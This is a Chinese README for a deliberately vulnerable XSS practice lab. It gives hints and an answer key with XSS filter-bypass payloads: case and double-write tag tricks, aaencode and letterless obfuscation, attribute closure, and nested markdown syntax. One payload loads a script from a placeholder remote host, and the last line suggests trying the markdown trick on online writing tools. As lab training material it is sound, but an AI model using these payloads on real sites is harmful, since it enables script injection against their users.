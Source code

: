 # 易锦 XSS 靶场

> 一个有意思的 XSS bypass 练习靶场，使用 React + Typescript 开发。



# 运行

1. 下载靶场源码，或者克隆到本地

2. 安装依赖

   ```bash
   npm  install
   ```

3. 运行靶场

   ```bash
   npm  start
   ```

4. 访问靶场

   默认是在[127.0.0.1:3000](127.0.0.1:3000)

5. 靶场使用

   在输入框中输入的内容经过 `parse` 函数处理之后渲染到一个 iframe 页面，这个页面里的 `alert` 函数已经被重写，调用 `alert` 之后就可以通关，通关后上方的关卡标题右边会出现”下一关“的按钮。

   







# 霉霉镇楼，不要偷看答案哦！

![](https://gimg2.baidu.com/image_search/src=http%3A%2F%2F201901.oss-cn-hangzhou.aliyuncs.com%2Fzh%2F521637-137ebc4db5f499ede71bcd0675f69be8.jpg&refer=http%3A%2F%2F201901.oss-cn-hangzhou.aliyuncs.com&app=2002&size=f9999,10000&q=a80&n=0&g=0n&fmt=auto?sec=1670418118&t=d78c16d053e0a1a1a6f551301c3f47d9)



















# 通关思路（无 payload）

先试试根据下面的提示进行尝试，试不出来再去看带 payload 的详解版本。

1. 第一关

   这一关是 XSS 入门，只要会前端的人都会，就不说了。

2. 第二关

   针对常见的引用资源的标签名做了过滤，不过只替换小写，因此可以大写绕过。

3. 第三关

   补上了大小写匹配，但是采用粗暴的替换方式，可以使用双写绕过。

4. 第四关

   使用了神挡杀神佛挡杀佛的全大写，HTML 平安无恙，但是 JS 就无法执行了。但是 JS 的某些 Bug 是可以当作 Feature 来尝试的。

   没有头绪吗？搜索 aaencode 试试。

5. 第五关

   这一关属于是返璞归真了， XSS 漏洞很多时候是从属性带入的，只要会构造闭合就行了。

6. 第六关

   这一关可能确实有点难，不过仔细观察一下，图片和链接语法是先后解析的——这意味着如果把两个语句“套娃”的话，可能会产生奇效。











# 锦鲤提示：不要偷看答案哦！

![](https://gimg2.baidu.com/image_search/src=http%3A%2F%2Fn.sinaimg.cn%2Fent%2Ftransform%2F373%2Fw440h733%2F20200315%2Fa895-iquxrui6507919.jpg&refer=http%3A%2F%2Fn.sinaimg.cn&app=2002&size=f9999,10000&q=a80&n=0&g=0n&fmt=auto?sec=1670418517&t=ceb307d6cdbf247168485e170673708b)









# 答案仅供参考（带 payload ）

1. 第一关，简单、原始、暴力

   ```html
   <script>alert()</script>
   ```

2. 第二关

   > 几个能带入脚本的标签会被替换掉，但是没考虑大写，所以果断大小写绕过，当然这里也可以使用双写。

   ```html
   <SCRipt>alert('Hello world')</script>
   ```

3. 第三关

   > 这一关大小写都会被杀掉，所以首选双写绕过。

   ```html
   <i<imgmg src onerror=alert() />
   ```

   ```html
   <scr<scriptipt>alert('Hello world')</script>
   ```

   > 也可以使用点击事件通关。
   >
   > 当然，XSS 利用的第一原则：能自动触发的绝不考虑交互触发。

   ```html
   <a onclick="alert(1)">点我</a>
   ```

4. 第四关

   > 这一关它会把所有字母改成大写，*HTML* 还是可以带进去，但是 *JS* 带不进去了。
   >
   > 可以使用**不带字母**的方法通关（只有字母有大小写）。

   ```html
   <script>ﾟωﾟﾉ= /｀ｍ´）ﾉ ~[表情][表情][表情]   //*´[表情]｀*/ ['_']; o=(ﾟｰﾟ)  =_=3; c=(ﾟΘﾟ) =(ﾟｰﾟ)-(ﾟｰﾟ); (ﾟДﾟ) =(ﾟΘﾟ)= (o^_^o)/ (o^_^o);(ﾟДﾟ)={ﾟΘﾟ: '_' ,ﾟωﾟﾉ : ((ﾟωﾟﾉ==3) +'_') [ﾟΘﾟ] ,ﾟｰﾟﾉ :(ﾟωﾟﾉ+ '_')[o^_^o -(ﾟΘﾟ)] ,ﾟДﾟﾉ:((ﾟｰﾟ==3) +'_')[ﾟｰﾟ] }; (ﾟДﾟ) [ﾟΘﾟ] =((ﾟωﾟﾉ==3) +'_') [c^_^o];(ﾟДﾟ) ['c'] = ((ﾟДﾟ)+'_') [ (ﾟｰﾟ)+(ﾟｰﾟ)-(ﾟΘﾟ) ];(ﾟДﾟ) ['o'] = ((ﾟДﾟ)+'_') [ﾟΘﾟ];(ﾟoﾟ)=(ﾟДﾟ) ['c']+(ﾟДﾟ) ['o']+(ﾟωﾟﾉ +'_')[ﾟΘﾟ]+ ((ﾟωﾟﾉ==3) +'_') [ﾟｰﾟ] + ((ﾟДﾟ) +'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ ((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [(ﾟｰﾟ) - (ﾟΘﾟ)]+(ﾟДﾟ) ['c']+((ﾟДﾟ)+'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ (ﾟДﾟ) ['o']+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ];(ﾟДﾟ) ['_'] =(o^_^o) [ﾟoﾟ] [ﾟoﾟ];(ﾟεﾟ)=((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟДﾟ) .ﾟДﾟﾉ+((ﾟДﾟ)+'_') [(ﾟｰﾟ) + (ﾟｰﾟ)]+((ﾟｰﾟ==3) +'_') [o^_^o -ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟωﾟﾉ +'_') [ﾟΘﾟ]; (ﾟｰﾟ)+=(ﾟΘﾟ); (ﾟДﾟ)[ﾟεﾟ]='\\'; (ﾟДﾟ).ﾟΘﾟﾉ=(ﾟДﾟ+ ﾟｰﾟ)[o^_^o -(ﾟΘﾟ)];(oﾟｰﾟo)=(ﾟωﾟﾉ +'_')[c^_^o];(ﾟДﾟ) [ﾟoﾟ]='\"';(ﾟДﾟ) ['_'] ( (ﾟДﾟ) ['_'] (ﾟεﾟ+/*´[表情]｀*/(ﾟДﾟ)[ﾟoﾟ]+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+(ﾟｰﾟ)+(ﾟΘﾟ)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((ﾟｰﾟ) + (ﾟΘﾟ))+(ﾟｰﾟ)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+(ﾟｰﾟ)+((ﾟｰﾟ) + (ﾟΘﾟ))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((o^_^o) +(o^_^o))+((o^_^o) - (ﾟΘﾟ))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((o^_^o) +(o^_^o))+(ﾟｰﾟ)+(ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+(c^_^o)+(ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+(ﾟΘﾟ)+(ﾟДﾟ)[ﾟoﾟ]) (ﾟΘﾟ)) ('_'); </script>
   ```

   > 或者也可使用如下 *alert payload*：

   ```html
   <img src onerror="_ =[] + ![] + !![];__=[]+[][0];$_=[]+{};_1=$_[5]+$_[1]+__[1]+_[3]+$_[6]+_[6]+__[0]+$_[5]+$_[6]+$_[1]+_[6];_2=_[1]+_[2]+_[4]+_[6]+$_[6];(0)[_1][_1](_2+'(1)')()" />
   ```

   > 除了上面这种奇怪的编码之外，还可以使用跨站脚本。
   >
   > 先把一个内容为`alert()`、名为 `ALERT.JS` 的脚本放到网站上：

   ```html
   <script src="//xxxx.xxxx.xxx/ALERT.JS"></script>
   ```

5. 第五关

   > 构造 **HTML** 属性闭合(使用引号闭合)。

   ```html
   " onerror="alert()
   ```

6. 第六关

   > markdown **图片**语法:
   >
   > ```markdown
   > ![图片的描述](图片的链接)
   > ```
   >
   > markdown **链接**语法：
   >
   > ```markdown
   > [链接的描述](链接的地址)
   > ```
   >
   > 有语法解析的地方，写点奇怪的东西，看能不能弄出解析结果错误。
   >
   > “*图片语法里面套娃套一个*链接语法”，造成 HTML 结构破坏，后面就可以 `onerror` 了，结合 `setTimeout` 特殊用法，绕开括号限制，拿下！
   >
   > ```markdown
   > ![[1](onerror=setTimeout`alert\x28\x29` )]()
   > ```

   > #### 题解思路
   >
   > `Markdown` 产出的内容**通常被直接渲染到网页上**，而不会经过框架的反 *XSS* 过滤，框架对此无能为力了。
   >
   > 1. 通过查看代码，我们发现对方把单双引号跟小于符号都过滤掉了
   >
   >    ![image-20220505222836959](C:\Users\ligr\AppData\Roaming\Typora\typora-user-images\image-20220505222836959.png)
   >
   >    所以常规的闭合思路不可取。
   >
   > 2. 但是，渲染标签的时候，对方给我们引入了梦寐以求的双引号
   >
   >    ```
   >    [1](2)
   >    ```
   >
   >    ![image-20220505223014862](C:\Users\ligr\AppData\Roaming\Typora\typora-user-images\image-20220505223014862.png)
   >
   > 3. 因此猜想把链接语法跟图片语法结合使用会有惊喜
   >
   >    ```
   >    ![[1](2)]()
   >    ```
   >
   >    ![image-20220505223418266](C:\Users\ligr\AppData\Roaming\Typora\typora-user-images\image-20220505223418266.png)
   >
   > 4. 尝试使用常规 payload，但是只有第一个括号，第二个被无意间干掉了，这是因为编辑器的语法解析的时候也需要圆括号，这个圆括号造成了干扰。
   >
   >    ```markdown
   >    ![[1](onerror=alert(1) )]()
   >    ```
   >
   >    ![image-20220505223835738](C:\Users\ligr\AppData\Roaming\Typora\typora-user-images\image-20220505223835738.png)
   >
   >    所以我们需要一种不引入圆括号的方法。
   >
   > 5. 结合 JS 的接口 `setTimeout` 可以**直接将后续的字符串变成代码**的奇葩特性，再加上十六进制编码`\x29 ==> )`，有突破口！
   >
   >    ```markdown
   >    ![[1](onerror=setTimeout`alert\x28\x29` )]()
   >    ```
   >
   > 
   >
   >    ![image-20220505224141164](C:\Users\ligr\AppData\Roaming\Typora\typora-user-images\image-20220505224141164.png)
   >
   > 

   另外一种 针对 markdown 的 payload （仅针对对方没有过滤双引号的场景，不适用于这个靶场）：

   ```html
   ![]("onerror=setTimeout`alert\x28\x29`)
   ```

   > 以后遇到在线的 markdown 写作工具的时候可以试着挖掘一下。
